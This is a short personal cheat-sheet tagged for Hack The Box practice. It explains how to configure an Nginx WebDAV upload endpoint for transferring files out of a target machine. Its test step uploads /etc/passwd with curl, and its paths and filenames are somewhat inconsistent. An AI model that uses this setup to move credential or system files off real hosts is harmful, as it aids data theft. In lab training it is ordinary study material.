 ```yaml
---
title:  "Nginx"
tags:
  - hacking
  - hacking/htb
programming-languagues:
created: 2022-07-11
---
```

Used for transferring files to Apache.

## Create Directory to Handle Uploaded Files
```bash
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

## Change the Owner to www-data
```bash
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

## Create Nginx Configuration File
In `/etc/nginx/sites-available/upload.conf`:

```bash
server {
    listen 9001;

    location /SecretUploadDirectory/ {
        root /var/www/uploads;
        dav_methods PUT;
    }
}
```

## Symlink our Site to the sites-enabled Directory
```bash
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx//sites-enabled/
```

## Start Nginx
```bash
sudo systemctl restart nginx.service
```

Error messages can be found in: `/var/log/nginx/error.log`.

For example:

```bash
ss -lnpt | grep '80'
```

```bash
ps -ef | grep '2811'
```

Could output something like `python -m websockify 80 localhost:5901 -D` which means there is a module already listening to port 80. To get around we can get rid of the default Nginx configuration:

```bash
sudo rm /etc/nginx/sites-enabled/default
```

And now we test:

```bash
curl -T /etc/passwd
```

```bash
tail -1 /var/www/upload/SecretUploadDirectory/users.txt
```

Then we can navigate to `http://localhost/SecretUploadDirectory`.